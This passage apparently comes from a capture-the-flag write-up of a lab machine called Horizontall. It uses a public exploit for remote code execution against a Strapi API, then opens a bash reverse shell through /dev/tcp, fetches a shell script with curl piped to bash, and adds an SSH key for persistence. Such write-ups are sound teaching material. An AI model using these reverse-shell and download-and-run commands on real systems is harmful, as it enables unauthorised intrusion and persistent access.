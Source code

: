 ![](/img/horizontall/Pasted%20image%2020220103200143.png)

This version is vulnerable to RCE. (Source: https://www.exploit-db.com/exploits/50239)

Downloading and running the exploit:

```bash
$ python3 50239.py http://api-prod.horizontall.htb/
```

![](/img/horizontall/Pasted%20image%2020220103195637.png)

This exploit let's us run commands on system. Let's try to get a reverse shell.

### Getting a reverse shell

We setup a netcat listener on port 443 (`sudo nc -nlvp 443`). Our normal payload does not work and does not yield a shell. 

Payload:
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.115/443 0>&1"
```

![](/img/horizontall/Pasted%20image%2020220103201451.png)

So pasting this command to a file `shell.sh` and running a Simple HTTP server in that directory using `sudo python3 -m http.server 80`

Then we try to `curl` our shell.sh and pipe over to bash so that `bash` can execute our `shell.sh` and give us a reverse shell.

```bash
$ curl http://10.10.14.13/shell.sh | bash
```

![](/img/horizontall/Pasted%20image%2020220103202111.png)

and we get a reverse shell

![](/img/horizontall/Pasted%20image%2020220103202213.png)

And then we can get the `user.txt` flag.

![](/img/horizontall/Pasted%20image%2020220103202251.png)

# Post Exploit Enumeration
#### Active ports

![](/img/horizontall/Pasted%20image%2020211230205004.png)

#### Logging in SSH

Inside `~` (/opt/strapi), we can make `.ssh` directory and add our public key, so that we can login using SSH instead of running the exploit again and again.
